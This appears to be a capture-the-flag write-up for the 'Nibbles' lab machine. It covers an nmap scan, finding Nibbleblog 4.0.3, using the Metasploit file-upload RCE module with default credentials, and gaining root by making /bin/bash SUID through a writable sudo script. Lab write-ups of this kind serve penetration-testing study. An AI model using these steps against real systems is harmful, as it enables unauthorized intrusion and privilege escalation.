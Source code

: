 # Nibbles

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.144    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:33 EDT
Nmap scan report for 10.129.85.144
Host is up (0.0093s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### NIbbleblog RCE

Visiting port 80 reveals nothing, until you read the comments:

```markup
$ curl http://10.129.85.144/                
<b>Hello world!</b>














<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

<figure><img src="../../../.gitbook/assets/image (170).png" alt=""><figcaption></figcaption></figure>

Based on the Nibbleblog Github Repo (which is no longer continued), I found that we can access `/README` to view the version used.

```
$ curl http://10.129.85.144/nibbleblog/README
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
<TRUNCATED>
```

There are RCE exploits for this, and I'm going to use`msfconsole` to exploit it. In specific, I want to use the `multi/http/nibbleblog_file_upload` module.&#x20;

```
set RHOSTS <ip>
set LHOST <my ip>
set TARGETURI /nibbleblog
set USERNAME admin # default creds
set PASSWORD nibbles # default creds
exploit
```

This would spawn us a Meterpreter shell.

<figure><img src="../../../.gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Writeable Sudo Script

We can check `sudo` privileges:

```
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

There is no script there, so we can create our own that makes `/bin/bash` an SUID binary.

```
$ sudo /home/nibbler/personal/stuff/monitor.sh             
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
```

Then, we can easily get `root`.&#x20;

<figure><img src="../../../.gitbook/assets/image (167) (3).png" alt=""><figcaption></figcaption></figure>
